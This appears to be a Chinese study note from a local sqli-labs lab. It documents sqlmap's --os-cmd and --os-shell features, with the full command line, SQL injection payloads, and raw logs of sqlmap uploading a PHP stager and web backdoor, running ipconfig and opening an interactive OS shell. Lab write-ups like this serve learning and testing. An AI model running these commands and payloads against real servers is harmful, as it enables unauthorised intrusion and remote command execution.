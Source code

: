 @author: 南瓜_pump

@date: 2021/10/27

[TOC]



## 1 【本地环境】

- Windows 10
- MySQL 5.7.26 
- 数据库root权限



## 2.【--os-cmd】

#### 2.1【输入】

执行命令：sqlmap -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1 -p id -dbms mysql --os Windows --os-cmd ipconfig

输入Web根目录：D:\phpstudy_pro\WWW

#### 2.2【执行过程的配置项】

1. [INFO] going to use a web backdoor for command execution
   which web application language does the web server support?
   [1] ASP (default)
   [2] ASPX
   [3] JSP
   [4] PHP

2. do you want sqlmap to further try to provoke the full path disclosure? [Y/n]

unable to automatically retrieve the web server document root

3. what do you want to use for writable directory?
   [1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
   [2] custom location(s)
   [3] custom directory list file
   [4] brute force search
4. please provide a comma separate list of absolute directory paths
5. do you want to retrieve the command standard output? [Y/n/a]



#### 2.3【执行过程Eg】

2.3.1 【测试注入点】

2.3.2【设置上传文件和路径并执行命令】

1. 设置后门文件类型
2. 测试绝对路径泄漏
3. 设置网站绝对路径，暂时不清楚[3]目录列表文件的功能
4. 提供定制的Web根目录位置，尝试上传暂存器和后门文件，并执行命令
5. 打印命令输出
6. 清除后门等文件，把执行过程的数据保存到本地

```

sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1 -p id -dbms mysql --os Windows --os-cmd ipconfig
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.8.8#dev}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

# 第一部分，测试注入点
[16:08:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4635=4635 AND 'OLFg'='OLFg

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x71706a6a71,(SELECT (ELT(2745=2745,1))),0x716a787871),2745) AND 'segR'='segR

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 6401 FROM (SELECT(SLEEP(5)))kgwb) AND 'cRLW'='cRLW

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-2265' UNION ALL SELECT NULL,CONCAT(0x71706a6a71,0x7578796f545172704944794477656c70717759494f766f6768454f4d5377666e444c65554a6b6948,0x716a787871),NULL-- -
---
[16:08:19] [INFO] testing MySQL
[16:08:19] [INFO] confirming MySQL
[16:08:19] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.5.9, Apache 2.4.39
back-end DBMS: MySQL >= 5.0.0

# 第二部分，设置上传文件和路径并执行命令
## （1）设置后门文件类型
[16:08:19] [INFO] going to use a web backdoor for command execution
which web application language does the web server support?
[1] ASP (default)
[2] ASPX
[3] JSP
[4] PHP
> 4

## （2）测试绝对路径泄漏
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[16:08:39] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?

## （3）设置网站绝对路径，暂时不清楚[3]目录列表文件的功能
[1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 2

## （4）提供定制的Web根目录位置，尝试上传暂存器和后门文件，并执行命令
please provide a comma separate list of absolute directory paths: D:\phpstudy_pro\WWW
[16:08:51] [WARNING] unable to automatically parse any web server path
[16:08:51] [INFO] trying to upload the file stager on 'D:/phpstudy_pro/WWW/' via LIMIT 'LINES TERMINATED BY' method
[16:08:51] [INFO] the file stager has been successfully uploaded on 'D:/phpstudy_pro/WWW/' - http://127.0.0.1:80/tmpugoke.php
[16:08:52] [INFO] the backdoor has been successfully uploaded on 'D:/phpstudy_pro/WWW/' - http://127.0.0.1:80/tmpbwezr.php

## （5）打印命令输出
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:
---
Windows IP 配置
略
---

## （6）清除后门等文件，把执行过程的数据保存到本地
[16:09:44] [INFO] cleaning up the web files uploaded
[16:09:44] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 2 times
[16:09:44] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\127.0.0.1'
```



## 3.【--os-shell】

SQLMap命令和配置输入、运行过程的配置项与【--os-cmd】完全相同，执行过程也基本相同。因此从【设置上传文件和路径并执行命令】部分开始记录。不再对配置选项进行注释。

```
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[16:24:21] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 2
please provide a comma separate list of absolute directory paths: D:\phpstudy_pro\WWW
[16:24:30] [WARNING] unable to automatically parse any web server path
[16:24:30] [INFO] trying to upload the file stager on 'D:/phpstudy_pro/WWW/' via LIMIT 'LINES TERMINATED BY' method
[16:24:30] [INFO] the file stager has been successfully uploaded on 'D:/phpstudy_pro/WWW/' - http://127.0.0.1:80/tmpuvjfg.php
[16:24:30] [INFO] the backdoor has been successfully uploaded on 'D:/phpstudy_pro/WWW/' - http://127.0.0.1:80/tmpbrhid.php

## 开始进入交互shell
[16:24:30] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> cd
do you want to retrieve the command standard output? [Y/n/a] y
No output
os-shell> chdir
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: 'D:\phpstudy_pro\WWW'
os-shell> exit
[16:26:48] [INFO] cleaning up the web files uploaded
[16:26:48] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 2 times
[16:26:48] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\127.0.0.1'
```







